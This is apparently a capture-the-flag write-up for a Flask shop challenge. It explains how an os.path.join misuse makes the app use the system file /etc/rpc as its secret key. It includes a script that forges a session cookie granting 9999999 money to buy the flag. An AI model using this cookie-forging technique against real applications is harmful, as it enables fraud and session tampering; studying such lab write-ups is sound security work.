 # Writeup for shop-1

In this challenge the goal is to buy a flag from the shop. The only problem is that we don't have enough money...

This app sets up something when starting up:

```python
...
app = Flask('EPT-Shop')
confdir = os.path.join('/app/', app.name, '/etc/')
if not os.path.exists(confdir):
    os.makedirs(confdir)
    random_process_context = random.choices(string.ascii_letters + string.digits, k=16)
    open(os.path.join(confdir, 'rpc'), 'w').write(random_process_context)

app.secret_key = open(os.path.join(confdir, 'rpc')).read()
...
```

If the folder `/app/EPT-Shop/etc/` does not exist, it creates it and stores a random value inside the file `/app/EPT-Shop/etc/rpc`.
This value is then used as the Flask SECRET_KEY.

There is a bug in the `os.path.join`-part of the code here. If you try to run `os.path.join('/app/', 'test', '/etc/')` in Python, it returns
`/etc/` instead of `/app/test/etc/`. This is because you are not supposed to have any string starting with `/` in `os.path.join`. 
If a string starts with `/` then `os.path.join` puts it as first in the result string.

`/etc/rpc` is actually a file that exists on Linux, and this now gets used as the secret key. Now that we know what the secret key is, we can craft our own
session cookie that has a lot of money, since the money is stored in the user session.

In order to solve this challenge I created my own Flask program that uses the `/etc/rpc` file as SECRET. Use the rpc-file from `python:latest` docker
so you're sure you use the exact same file as the server.

```python
from flask import Flask, request, make_response, redirect, render_template, send_from_directory, session
import random
import string
import os

app = Flask('hacked')
app.secret_key = open('/etc/rpc').read()

@app.route('/', defaults={'path': 'index.html'})
@app.route('/<path:path>')
def static_files(path):
    session['money'] = 9999999
    if path == 'index.html':
        return render_template('index.html', items=items, money=session['money'])
    return send_from_directory('static', path)


if __name__ == '__main__':
    app.run(host='0.0.0.0', port=8000)
```

Visit the website and copy this cookie to the challenge website and buy the flag!

Flag: `EPT{J0in1ng_p4th5_1s_h4rd_C4n_1_j0in_y0u_1nst3ad_<3?}`
